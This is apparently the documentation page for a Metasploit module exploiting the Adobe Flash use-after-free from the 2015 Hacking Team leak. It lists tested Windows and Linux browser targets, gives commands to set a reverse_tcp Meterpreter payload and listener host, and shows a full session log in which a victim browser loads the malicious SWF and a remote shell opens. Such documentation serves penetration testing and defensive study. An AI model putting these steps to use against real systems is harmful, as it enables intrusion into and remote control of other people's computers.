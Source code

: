 ## Description

This module exploits an use after free on Adobe Flash Player. The vulnerability, discovered by Hacking Team and made public as part of the July 2015 data leak, was described as an Use After Free while handling ByteArray objects. This module has been tested successfully on:

1. Windows 7 SP1 (32-bit), IE11 and Adobe Flash 18.0.0.194.
2. Windows 7 SP1 (32-bit), Firefox 38.0.5 and Adobe Flash 18.0.0.194.
3. Windows 8.1 (32-bit), IE11 and Adobe Flash 18.0.0.194.
4. Windows 8.1 (32-bit), Firefox and Adobe Flash 18.0.0.194.
5. Linux Mint "Rebecca" (32 bits), Firefox 33.0 and Adobe Flash 11.2.202.468.

## Verification Steps

1. Do: ```use exploit/multi/browser/adobe_flash_hacking_team_uaf```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Scenarios

### IE 11 and Flash 18.0.0.194

```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf 
msf exploit(adobe_flash_hacking_team_uaf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_hacking_team_uaf) > set LHOST 172.16.178.160
LHOST => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set srvhost 172.16.178.80
srvhost => 172.16.178.80
msf exploit(adobe_flash_hacking_team_uaf) > set SRVPORT 80
SRVPORT => 80
msf exploit(adobe_flash_hacking_team_uaf) > set URIPATH /
URIPATH => /
msf exploit(adobe_flash_hacking_team_uaf) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.178.160:4444 
[*] Using URL: http://0.0.0.0:80/
msf exploit(adobe_flash_hacking_team_uaf) > [*] Local IP: http://127.0.0.1:80/
[*] Server started.

msf exploit(adobe_flash_hacking_team_uaf) > 
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Gathering target information.
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Sending HTML response.
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Request: /rGaaQS/
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Sending HTML...
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Request: /rGaaQS/AsvCG.swf
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Sending SWF...
[*] Sending stage (957999 bytes) to 172.16.178.80
[*] Meterpreter session 1 opened (172.16.178.160:4444 -> 172.16.178.80:49167) at 2017-03-26 22:51:29 +0900

msf exploit(adobe_flash_hacking_team_uaf) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WIN7X64TJ7XH-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64 (Current Process is WOW64)
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
```
